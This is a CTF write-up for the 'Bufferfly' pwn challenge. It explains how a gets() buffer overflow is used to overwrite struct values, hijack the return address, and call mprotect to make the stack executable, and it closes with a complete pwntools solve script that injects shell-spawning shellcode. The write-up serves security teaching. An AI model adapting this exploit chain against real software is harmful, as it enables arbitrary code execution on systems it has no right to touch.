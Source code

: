 # Writeup - Bufferfly
**Author: Ingeborg**

**Difficulty: challenging**

**Category: pwn**

---

We are given both the binary and the source code for part of the program.
In the file "bufferfly.c", we see the use of the function gets, which is
prone to buffer overflows. Read more about it [here](https://19.tghack.no/page/Pwntions%20tutorial) or google it.


```
$ nc bufferfly.tghack.no 6002
```


If we look at the source file, we see that our goal is likely to be reaching the
supersecret_base-function. The address of this is printed in the function talk_to_chest, this function will be executed if the first function (open_chest) returns true. Here, we can see that in order for open_chest to return true, the value of voice.bubble must be zero and voice.characteristics must be 25. These are not the default values set by the program and there is no way to change them while interacting with the program in the intended way.

But because the gets-function is used, we can overwrite these values. This is because the gets-function is unsafe, it takes an unspecified amount of input without concern for how much the receiving array can actually store. This means that if more input than intended is given, the input will overwrite other parts of the memory (stack in our case). To make the function return true we have to overwrite the voice_recognizer struct, which means that we need to feed it 17 bytes of anything, with a following hex value for 0 and for 25.

![](./stack_struct_bof.png)

Now we get to the talk_to_chest-function which tells us the address of the supersecret_base-address. Because the program takes more input here, we can set the now known secret address as the current return value. This can be done because there is no stack-canary checking if the values on the stack beyond the current function scope/stack frame. In this case there may be some values between the buffer we get to write to and the return value, both because there are actual stuffs that should be here and because the stack needs to be aligned. We therefore have to experiment with the amount of padding needed before writing our new return address. In our case, it turns out to be 32 bytes. We now send 32 bytes of padding and the address of supersecret_base, so that when the program exits the current function it returns to supersecret_base.
Our stack now looks like this:

![](./stack_bof.png)

Here we get this:
```
"Hi, I'm the Boblinessa cult encyclopedia!"
"So, what where you looking for?"
```

In the open_door-function we can get the address of the function "mprotect" and a buffer (that we can control) on the stack. Mprotect is a function that is used to change the permissions of a memory area that the calling process owns. One such memory area is the stack. Read more [here](http://man7.org/linux/man-pages/man2/mprotect.2.html). Mprotect can therefore be used to solve the problem with the stack not being executable. If we can make the buffer executable again we can place some shellcode of our choice on the stack and run it. So let's do that!

Mprotect needs to know the address of the memory area that should get new permissions, how large the area is and which permissions should be given. The signature of mprotect is this:
```
int mprotect(void *addr, size_t len, int prot);
```
We call this function the same way we did in the previous turn, by replacing the current return value. Because this is a 32 bit binary, the arguments for the called functions are placed directly on the stack, directly following the function address.
For the shellcode, we are going to do it the easy way and make [pwntools](http://docs.pwntools.com/en/stable/) do it for us. We add a nop-sled and padding to make sure everything is alligned and correctly placed. This requires some experimentation, but here is the final solve script:
```
from pwn import *


# set debug = True to test solution locally
debug = True
# Run with strace for debugging
# This creates a need for a slightly different method of parsing
strace = False

if debug:
    if strace:
        c = process("strace './bufferfly'", shell=True)
    else:
        c = process("./bufferfly")
else:
    c = remote("localhost", 1337)

c.sendline("a"*17 + "\x00" + "\x19\x00\x00\x00")
curr = c.recvuntil("you know, the one at 0x")
curr = c.recvline()
goal_address = p32(int(curr.split("!")[0], 16))
c.sendline("a" * 32 + goal_address + "\n\n %x %x")

###############################
#     Creating shellcode      #
###############################
context.update(arch='i386', os='linux')
shellcode = shellcraft.sh()
shellcode = b"\x90" * 15 + asm(shellcode)

###############################
#  Getting address of buffer  #
###############################
c.sendline("mattac\nnot donio")
c.recvuntil("Also I'm hiding here: ")
curr = c.recv()
if strace:
    addr = curr.split("\"")[0]
else:
    print(curr)
    addr = curr.split(".")[0]

stack_ret = int(addr, 16)
# stack address to give permissions to. Find by aligning down(?) return address
stack_start = (stack_ret / 4096) * 4096
stack_ret = p32(stack_ret)
stack_start = p32(stack_start)

###############################
# Getting address of mprotect #
###############################
c.sendline("mprotec\nnot done")
curr = c.recvuntil("She protecs right here in fact: ")
curr = c.recvline()
mprotect = p32(int(curr.split(".")[0], 16))
permissions = p32(0x00000007)  # Need read, write and execute
size = p32(0x0001000)  # pagesize/4096

###############################
#   Assembling final payload  #
###############################
pad = "A" * 29
payload = shellcode + pad
payload += mprotect + stack_ret + stack_start + size + permissions
c.sendline(payload + "\ndone")
c.interactive()
```

Our stack now looks a bit like the illustration below. So when we return from the last function, our shellcode should run and we should
get a shell.

![](./mprotec_bof.png)
